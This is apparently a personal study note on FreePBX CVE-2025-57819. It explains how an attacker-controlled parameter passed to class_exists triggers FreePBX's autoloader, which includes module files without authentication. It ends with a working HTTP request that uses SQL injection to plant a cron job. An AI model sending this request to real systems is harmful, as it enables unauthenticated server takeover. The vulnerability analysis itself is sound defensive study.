

# You Already Have Our Personal Data, Take Our Phone Calls Too (FreePBX CVE-2025-57819)

>[!summary]
>Here is a 4-point summary of the **FreePBX CVE-2025-57819** vulnerability:
>1. **Abuse of PHP's `class_exists`:** The vulnerability starts with a user-controlled parameter being passed directly into `class_exists()`. Because PHP’s default behavior is to "autoload" missing classes, this triggers a search for a file on the server's disk based on the attacker's input.
>  
>2. **Insecure Custom Autoloader:** FreePBX uses a custom function (`fpbx_framework_autoloader`) that translates class names into file paths. It takes strings starting with `FreePBX\modules\`, converts the slashes, and uses a raw `include` statement to execute the resulting `.php` file.
    >
>3. **Authentication Bypass:** By triggering this autoloader, an attacker can force the server to execute administrative scripts (like `ajax.php` within various modules) that are usually protected by a login screen. This "jumps" the attacker straight into the internal logic of the application without a password.
 >   
>4. **Chain to Remote Code Execution (RCE):** Once an internal file is included, the attacker exploits secondary vulnerabilities within that file—specifically **SQL Injection**. In the watchTowr demonstration, this was used to insert a malicious command into the system's cron jobs, leading to full server compromise.

The vulnerability sits right at the start of `doRequest`, in a deceptively simple check.

```php
$bmo->Ajax->doRequest($module, $command); // [1]

public function doRequest($module = null, $command = null) {
	...
	if (class_exists(ucfirst($module)) && $module != "directory")
	...
```

This is… not great. The condition just drops the attacker-controlled module parameter straight into `class_exists`. But why does that matter?

At first glance, it seems harmless - just a class name lookup. But when we actually checked the PHP documentation, we realized something important: `class_exists` doesn’t just take a single argument. It accepts a second argument: `autoload`.



If `autoload` is true, PHP will happily try to **automatically load whatever class name you feed it**. 
Since the default is `true`, our attacker-controlled input into `class_exists` means [PHP](../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/PHP.md) will go looking for a class file on disk.

But here’s the twist: we don’t actually care about loading a class. What we really want is for PHP to execute a static script like `admin/modules/endpoint/ajax.php`. That’s where FreePBX’s custom magic enters the scene.

Inside `functions.inc.php` - a helper file loaded early in execution - FreePBX registers its own autoloader:
```php
spl_autoload_register('fpbx_framework_autoloader');
```

According to the [official documentation](https://www.php.net/manual/en/function.spl-autoload-register.php), this function lets you register your own custom handlers for class autoloading. In practice, that means when `class_exists` is called, the attacker-supplied `module` parameter is handed straight over to the `fpbx_framework_autoloader` function.

```php
//freepbx autoloader
function fpbx_framework_autoloader($class) {
  if ($class === true) {
          // Deprecated - true USED to mean 'load all modules'
          return false;
  }

  // Handle guielements
  if (substr($class, 0, 3) == 'gui') {
          $class = 'component';
  }

  // FreePBX Module autoloader
  if (stripos($class, 'FreePBX\\\\modules\\\\') === 0) { // [1]
          // Trim the front
          $req = substr($class, 16); // [2]
          
          // If there's ANOTHER slash in the request, we want to try to autoload
          // the file.
          $modarr = explode('\\\\', $req); // [3]
          if (!isset($modarr[1])) {
                  // TODO: Add *real* module autoloader here in FreePBX 15, replacing the BMO __get() autoloader
                  return;
          }
          // This is a basic implementation of PSR4 under ..admin/modules/modulename/.. so that
          // a request for \\FreePBX\\modules\\Ucp\\Widgets\\Ponies would look for a file
          // called ..admin/modules/ucp/Widgets/Ponies.php and then load it, if it exists.
          $moddir = \\FreePBX::Config()->get('AMPWEBROOT')."/admin/modules/".strtolower(array_shift($modarr))."/"; // [4]

          $filepath = $moddir.join("/", $modarr).".php"; // [5]

          if (file_exists($filepath)) {
                  include $filepath; // [6]
          }
          // Always return here, as there's nothing left to try.
          return;
  }
  //...
}
```

Let’s say we specify `module` as `FreePBX\\modules\\endpoint\\install`.

- At `[1]`, the code checks if our `module` starts with `FreePBX\\modules`. If it does, we move into the interesting path.
- At `[2]`, it strips away the `FreePBX\\modules` prefix, leaving just `endpoint\\install`.
- At `[3]`, the string is split into an array (`modarr`) using the backslash separator.
- At `[4]`, it builds a path to the webroot and tacks on the first element of that array. In a default FreePBX setup, this gives `/var/www/html/admin/modules/endpoint/`.
- At `[5]`, it takes the last element from the array (`install`) and adds `.php`.
- In our case, the `filepath` is now equal to:

`/var/www/html/admin/modules/endpoint/install.php`

- Everything becomes clear at `[6]`, where our file… is just included [^1].

This is it! The custom FreePBX class loader allows you to include any file ending with the `.php` extension from the `admin/modules` location!

Put simply: attackers can hit certain module files directly without needing to authenticate.

```http
GET /admin/ajax.php?module=FreePBX\\modules\\endpoint\\ajax&command=model&template=x&model=model&brand=x'+;INSERT+INTO+cron_jobs+(modulename,jobname,command,class,schedule,max_runtime,enabled,execution_order)+VALUES+('sysadmin','watchTowr','id+>+/tmp/watchTowr',NULL,'*+*+*+*+*',30,1,1)+--+ HTTP/1.1
Host: freepbx.lab
```

[^1]: [File Inclusion (LFI & RFI)](../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/File%20Inclusion%20(LFI%20&%20RFI).md)
